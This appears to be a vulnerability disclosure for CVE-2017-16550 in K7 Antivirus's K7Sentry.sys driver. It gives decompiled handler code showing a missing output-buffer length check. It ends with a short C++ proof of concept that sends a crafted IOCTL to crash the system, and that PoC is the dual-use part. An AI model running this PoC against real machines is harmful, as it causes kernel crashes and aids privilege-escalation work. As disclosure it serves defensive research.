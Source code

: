 # CVE-2017-16550

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*


# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x95002570 does not check the length of the output buffer before using it and assigns a 4 byte value to the output buffer.

```C++
// Internal structure used in the driver to pass about the basic information needed
typedef struct _IO_CONTROL_BUFFER
{
    DWORD dwSize;
    DWORD dwInputBufferLength;
    PVOID pInputBuffer;
    DWORD dwOutputBufferLength;
    PVOID pOutputBuffer;
    PDWORD pdwIoStatusInformation;
    DWORD dwIoControlCode;
} IO_CONTROL_BUFFER, *PIO_CONTROL_BUFFER;


// This is filled in at the top of the dispatch handler
```

```C++
// Snippets of the handler routine

// Setting up the IO_CONTROL_BUFFER structure
IO_CONTROL_BUFFER stIoControlBuffer = {0};
stIoControlBuffer.dwSize = 32;
pIoStackLocation = (IO_STACK_LOCATION *)Irp->Tail.Overlay.CurrentStackLocation;
dwIoControlCode = pIoStackLocation->Parameters.DeviceIoControl.IoControlCode;
stIoControlBuffer.dwIoControlCode = dwIoControlCode;
stIoControlBuffer.dwInputBufferLength = pIoStackLocation->Parameters.DeviceIoControl.InputBufferLength;
stIoControlBuffer.dwOutputBufferLength = pIoStackLocation->Parameters.DeviceIoControl.OutputBufferLength;
stIoControlBuffer.pdwIoStatusInformation = &Irp->IoStatus.Information;

if ( !(dwIoControlCode & 3) )
{
    pInputBuffer = (int *)Irp->AssociatedIrp.SystemBuffer;
    stIoControlBuffer.pInputBuffer = pInputBuffer;
    pOutputBuffer = (PVOID *)pInputBuffer;
    stIoControlBuffer.pOutputBuffer = pInputBuffer;
    goto LABEL_12;
}
if ( (dwIoControlCode & 3) != 3 )
{
    pOutputBuffer = (PVOID *)stIoControlBuffer.pOutputBuffer;
    goto LABEL_11;
}
pInputBuffer = (int *)pIoStackLocation->Parameters.DeviceIoControl.Type3InputBuffer;
stIoControlBuffer.pInputBuffer = pInputBuffer;
pOutputBuffer = (PVOID *)Irp->UserBuffer;
stIoControlBuffer.pOutputBuffer = Irp->UserBuffer;


// Snippet of the specific handler code.
switch (dwIoControlCode)
{
    // ...
    case 0x9500256C:
        if ( stIoControlBuffer.dwInputBufferLength < 4u || !pInputBuffer )
            goto LABEL_49;
        if ( dwOutLength_1 < 4 )
            goto LABEL_39;
        *pOutputBuffer = (PVOID)1;
        *v2 = 4;
        v9 = 0;
        goto LABEL_117;
    case 0x95002570:
        // See CVE-2017-16549
        goto LABEL_117;
    case 0x95002574:
        // At this point, no checks have been performed in the size of the output buffer...
        v9 = sub_15840(&stIoControlBuffer);
        goto LABEL_117;
    // ...
}

```

```C++
int __stdcall sub_15840(IoControlBuffer *pIoControlBuffer)
{
    // 
    PVOID v1; // eax
    bool v2; // zf
    PVOID v3; // eax

    GetVirusDefVersion(&g_pszVDefVersoin);
    word_4EFD4 = g_pszVDefVersoin;
    if ( dword_4F020 && !_InterlockedCompareExchange(&dword_4F024, 1, 0) )
    {
        // Some code, not relavent
    }
    *pIoControlBuffer->pdwIoStatusInformation = 4;

    // VULN: No check has been performed to ensure you can write 4 bytes to pOutputBuffer. Need 
    // to check dwOuputBufferSize is >= 4 before assigning 4 bytes to it.
    *(_DWORD *)pIoControlBuffer->pOutputBuffer = 0;
    return 0;
}
```


# PoC Code
This PoC will open a connection to the driver and call it with the approiate IOCTL code to geneate the crash.

```c++
HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDevice != INVALID_HANDLE_VALUE)
{
    DeviceIoControl(hDevice, 0x95002574, (PVOID)arrInBuffer, 0, (PVOID)0xaaaaaaaa, 0, &dwBytesReturned, NULL);
}
```

On Windows XP, this will attempt to write the value 0 to *0xaaaaaaaa*.

On Windows 7 and above, this will attempt to write the value 0 to 0x00000000 and will cause a BSOD.
